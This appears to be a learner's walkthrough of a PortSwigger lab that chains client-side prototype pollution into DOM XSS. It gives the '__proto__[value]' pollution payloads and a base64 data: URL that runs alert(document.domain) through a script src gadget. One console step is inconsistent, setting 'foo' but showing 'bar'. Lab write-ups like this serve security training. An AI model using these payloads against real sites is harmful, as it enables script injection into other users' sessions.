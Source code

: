  This lab is vulnerable to DOM XSS via client-side prototype pollution. The website's developers have noticed a potential gadget and attempted to patch it. However, you can bypass the measures they've taken.

To solve the lab:

    Find a source that you can use to add arbitrary properties to the global Object.prototype.

    Identify a gadget property that allows you to execute arbitrary JavaScript.

    Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.

This lab is based on real-world vulnerabilities discovered by PortSwigger Research. For more details, check out Widespread prototype pollution gadgets by Gareth Heyes. 

1. with DOM invader identify vaulnarble "value" parameter
2. try diffrent polutions and find:
```
?__proto__[value]=foo
```
check in console:
```
> Object.prototype.value
< 'bar'
```
3. change to **?__proto__[value]=alert()** - no pop find in devtools/elements:
```
<script src="alert()"></script>
```
4. use **data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==** as payload:
```
?__proto__[value]=data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==
```


